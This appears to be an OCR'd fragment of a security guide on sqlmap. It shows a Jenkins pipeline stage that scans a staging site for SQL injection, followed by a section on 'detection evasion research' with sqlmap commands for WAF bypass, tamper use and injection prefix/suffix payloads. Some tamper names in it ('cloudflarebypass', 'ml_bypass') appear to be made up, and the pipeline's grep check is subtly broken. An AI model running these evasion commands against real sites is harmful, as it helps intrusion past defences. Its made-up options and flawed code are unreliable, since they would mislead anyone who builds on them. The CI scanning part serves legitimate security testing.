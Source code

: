             stage('SQL Injection Test') {
                steps {
                    script {
                        def result = sh(
                            script: 'python3 sqlmap.py -u "${STAGING_URL}" --batch --level=2 --risk=1',
                            returnStatus: true
                        )
                        
                        if (result == 0 && sh('grep -q "vulnerable" sqlmap.log')) {
                            error('SQL injection vulnerability detected!')
                        }
                    }
                }
            }
            
            stage('Deploy to Production') {
                when {
                    expression { currentBuild.result == null }
                }
                steps {
                    sh 'deploy-to-production.sh'
                }
            }
        }
    }
:::
:::
:::

### Advanced Detection Evasion Research

::: code-block
    # Research new evasion techniques
    python sqlmap.py -u "target" --list-tampers | grep -i "bypass\|evas\|waf"

    # Test against specific WAF vendors
    python sqlmap.py -u "target" --tamper=cloudflarebypass --identify-waf

    # Custom payload fuzzing
    python sqlmap.py -u "target" --suffix=")-- " --prefix="' OR ('"

    # Machine learning bypass research
    python sqlmap.py -u "target" --tamper=ml_bypass --technique=B
:::
:::

::: {style="position: absolute; top: 0; left: 0; right: 0; height: 3px; background: linear-gradient(90deg, #ff0080, #00ff80, #0080ff, #ff0080); animation: rainbow 3s linear infinite;"}
:::
